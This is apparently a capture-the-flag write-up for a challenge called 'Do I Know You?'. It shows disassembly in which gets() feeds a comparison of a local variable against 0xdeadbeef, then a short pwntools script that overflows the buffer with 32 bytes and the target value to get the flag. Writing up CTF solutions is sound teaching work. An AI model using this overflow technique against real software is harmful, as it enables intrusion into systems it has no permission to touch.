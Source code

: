 # Do I Know You?

If we disassemble, the solution is pretty clear.

```text
[...]
|           0x55c00f08685d      4889c7         mov rdi, rax
│           0x55c00f086860      b800000000     mov eax, 0
│           0x55c00f086865      e846feffff     call sym.imp.gets
│           0x55c00f08686a      488b55f0       mov rdx, qword [var_10h]
│           0x55c00f08686e      b8efbeadde     mov eax, 0xdeadbeef
│           0x55c00f086873      4839c2         cmp rdx, rax
│       ┌─< 0x55c00f086876      7522           jne 0x55c00f08689a
│       │   0x55c00f086878      488d3de90000.  lea rdi, str.X_MAS_Fake_flag...
[...]
```

`gets()` is used to take in input, then the contents of another local variable are compared to `0xdeadbeef`. Basic buffer overflow then overwrite a local variable:

```python
from pwn import *

elf = context.binary = ELF('./chall')
p = remote('challs.xmas.htsp.ro', 2008)

payload = b'A' * 32
payload += p64(0xdeadbeef)

p.sendlineafter('you?\n', payload)
print(p.recvuntil('}'))
```

`X-MAS{ah_yes__i_d0_rememb3r_you}`

